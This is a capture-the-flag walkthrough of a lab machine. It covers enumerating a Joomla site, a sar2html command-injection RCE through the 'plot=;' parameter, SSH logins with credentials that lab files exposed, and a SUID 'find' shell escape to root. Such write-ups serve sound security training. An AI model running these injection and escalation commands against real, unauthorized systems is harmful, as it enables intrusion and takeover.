# Enumeration
Let's start our autorecon scan. We immediately find ports 21 and 80 open. We also find UDP port 10000 open.



We confirm with follow-up nmap scans. We'll just focus on the TCP ports for now.





Let's take a look at the web server. We're greeted with the Apache2 Ubuntu Default Page. If we check the `/robots.txt` file, we find some interesting disallowed directories:

```txt
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```

Okay, so as far as the directories are concerned, this seems like a rabbit hole. The last line looks like ASCII. Converting this to text yields `OTliMDY2MGNkOTVhZGVhMzI3YzU0MTgyYmFhNTE1ODQK`. This looks a little like base64. Decoding yields `99b0660cd95adea327c54182baa51584`.

Let's enumerate directories with gobuster using `gobuster dir -u http://10.10.113.131 -w /usr/share/dirb/wordlists/common.txt -x .txt,.html`.



The `/joomla` directory tells us something important -- we are working with the Joomla CMS at some point. Navigating here gives us a home page together with a login form.


The first thing we should do is determine the version of Joomla which is currently running. There are a few ways to do this; one way is to navigate to `http://10.10.113.131/joomla/administrator/manifests/files/joomla.xml`. In our case, we see that the version number is 3.9.12.



If we re-run our gobuster scan relative to the `/joomla` directory, we can find further subdirectories:

```txt
/images               (Status: 301) [Size: 322] [--> http://10.10.113.131/joomla/images/]
/index.php            (Status: 200) [Size: 12484]                                        
/media                (Status: 301) [Size: 321] [--> http://10.10.113.131/joomla/media/] 
/templates            (Status: 301) [Size: 325] [--> http://10.10.113.131/joomla/templates/]
/modules              (Status: 301) [Size: 323] [--> http://10.10.113.131/joomla/modules/]  
/tests                (Status: 301) [Size: 321] [--> http://10.10.113.131/joomla/tests/]    
/bin                  (Status: 301) [Size: 319] [--> http://10.10.113.131/joomla/bin/]      
/plugins              (Status: 301) [Size: 323] [--> http://10.10.113.131/joomla/plugins/]  
/includes             (Status: 301) [Size: 324] [--> http://10.10.113.131/joomla/includes/] 
/language             (Status: 301) [Size: 324] [--> http://10.10.113.131/joomla/language/] 
/components           (Status: 301) [Size: 326] [--> http://10.10.113.131/joomla/components/]
/cache                (Status: 301) [Size: 321] [--> http://10.10.113.131/joomla/cache/]     
/libraries            (Status: 301) [Size: 325] [--> http://10.10.113.131/joomla/libraries/] 
/installation         (Status: 301) [Size: 328] [--> http://10.10.113.131/joomla/installation/]
/build                (Status: 301) [Size: 321] [--> http://10.10.113.131/joomla/build/]       
/tmp                  (Status: 301) [Size: 319] [--> http://10.10.113.131/joomla/tmp/]         
/layouts              (Status: 301) [Size: 323] [--> http://10.10.113.131/joomla/layouts/]     
/administrator        (Status: 301) [Size: 329] [--> http://10.10.113.131/joomla/administrator/]
/configuration.php    (Status: 200) [Size: 0]                                                   
/cli                  (Status: 301) [Size: 319] [--> http://10.10.113.131/joomla/cli/]          
/_files               (Status: 301) [Size: 322] [--> http://10.10.113.131/joomla/_files/]       
```

Notably, the `/administrator` subdirectory houses the Joomla CMS login form, which we can't do much with for now.



We can try brute forcing the login page with Hydra. A bit of Googling reveals that the default username for the Joomla CMS is `admin`, so we just have to guess the password.

Re-running the gobuster scan relative to the `/joomla` directory but using the dirbuster `common.txt` wordlist reveals some more subdirectories which we missed earlier.

```txt
/_archive             (Status: 301) [Size: 324] [--> http://10.10.113.131/joomla/_archive/]
/_database            (Status: 301) [Size: 325] [--> http://10.10.113.131/joomla/_database/]
/_files               (Status: 301) [Size: 322] [--> http://10.10.113.131/joomla/_files/]   
/_test                (Status: 301) [Size: 321] [--> http://10.10.113.131/joomla/_test/]                                         
/~www                 (Status: 301) [Size: 320] [--> http://10.10.113.131/joomla/~www/]   
```

All of these are dead-ends (sometimes involving more caesar ciphers or base64 decoding) except for the `/_test` directory.



This page makes use of sar2html. We will exploit this in a moment, but first we need to enumerate ftp (mostly for the sake of the THM task). Logging in as anonymous gives us access to the ftp server.



Looking around, we find a hint `txt` file.



The text looks encrypted via a caesar cipher. Using, for example, [this site](https://www.dcode.fr/caesar-cipher) to decode is gives us an important reminder:

`Just wanted to see if you find it. Lol. Remember: Enumeration is the key!`

In any case, this is enough to answer the first few questions from Task 1.
<br>

# Exploitation
We saw earlier that the `/_test` page makes use of sar2html. Some googling reveals that there is an [RCE exploit](https://www.exploit-db.com/exploits/47204) we can use. We simply append `/index.php?plot=;<insert command>` to the `/joomla/test` subdirectory, and we can read the console output in a dropdown menu. For instance, we can use the `id` command; we get the following output:



If we run `ls` using this method, we find a `log.txt` file. (Note: This is the "interesting" file requested by the last question in the task.) Cat-ing this gives us some credentials!



We saw ssh running on port 55007. Let's try the credentials we found using `ssh -p basterd@10.10.113.131`.



Success! Let's immediately upgrade our shell with `python -c 'import pty; pty.spawn("/bin/bash")'`. Within our user's home directory, we find a `backup.sh` file. Cat-ing it reveals another pair of credentials.



We can now ssh into stoner's account using the credentials we just found. Note that there is a hidden file in stoner's home directory; this contains the first flag.


<br>

# Post-Exploitation
Now let's see if we can escalate to root. Using `id` reveals that stoner belongs to the `lxd` group; this can sometimes be [used to escalate privileges](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation). 

```bash
stoner@Vulnerable:~$ id
uid=1000(stoner) gid=1000(stoner) groups=1000(stoner),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Note that basterd was not a part of the `lxd` group, so we needed to do some lateral movement (sshing into stoner's account) for this to work. In any case, I ran into an error when attempting to do the above privesc (LXD did not appear to be running).



So let's try something else. We can look for binaries with the SUID bit set by using `find / -type f -perm -u=s 2>/dev/null`. Comparing the output to the list of binaries on [GTFOBins](https://gtfobins.github.io/gtfobins/find/), we notice that the `find` binary can be exploited! We simply navigate to `/usr/bin` and run `./find . -exec /bin/sh -p \; -quit
`. 



Just like that, we get a root shell! Attempting to upgrade our shell with the usual python command seems to kick us back to stoner's shell, so we're stuck with a primitive shell for now. Looking around, however, we can find the `root.txt` flag in the usual place.

